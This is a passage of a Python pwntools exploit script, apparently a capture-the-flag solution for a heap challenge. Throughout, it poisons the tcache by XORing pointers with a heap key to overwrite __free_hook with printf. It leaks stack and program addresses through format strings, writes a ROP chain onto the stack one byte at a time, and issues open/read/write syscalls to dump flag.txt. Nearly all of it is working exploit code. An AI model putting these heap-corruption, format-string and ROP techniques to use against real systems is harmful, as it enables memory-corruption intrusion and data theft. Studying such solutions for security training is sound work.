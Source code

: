 ```py
    free(i)

edit(0, p8((0x60 ^ heap_key) & 0xff))

alloc(0x18, pack(heap_key))

alloc(0x18, pack(libc.sym['__free_hook'] ^ heap_key))

alloc(0x18, pack(heap_key))

alloc(0x18, pack(libc.sym['printf']))

alloc(0x400, b'LIBC:%8$p: EXE:%16$p: NEEDLE:\n\0')

leak = free(4)
leak = leak.split(b'NEEDLE:\n\n', 1)[1]

leak = leak.split(b'LIBC:', 1)[1]
(leak, remaining) = leak.split(b':', 1)
leak = int(leak, 0)
stack = leak
print('stack: ' + hex(stack))

leak = remaining
leak = leak.split(b'EXE:', 1)[1]
(leak, remaining) = leak.split(b':', 1)
leak = int(leak, 0)
exe.address = leak - exe.sym['main']
print('exe: ' + hex(exe.address))

def stack_write(addr, b):
    alloc(0x80, b'%' + str(addr & 0xffff).encode() + b'c' + b'%14$hn\n')
    free(4)
    if b == 0:
        alloc(0x80, b'%43$hhn\n')
    else:
        alloc(0x80, b'%' + str((b) & 0xff).encode() + b'c' + b'%43$hhn\n')
    free(4)

buf = stack + 0x200

rop = ROP(libc)
rop.rax = 2
rop.rdi = buf
rop.rsi = 0
rop.raw(rop.find_gadget(['syscall', 'ret']).address)
rop.read(3, buf, 0x100)
rop.write(1, buf, 0x100)

print(rop.dump())

a = stack + 0x18
n = 0
for b in rop.chain():
    stack_write(a, b)
    n += 1
    print(n)
    a += 1

a = buf
n = 0
for b in b'flag.txt\0':
    stack_write(a, b)
```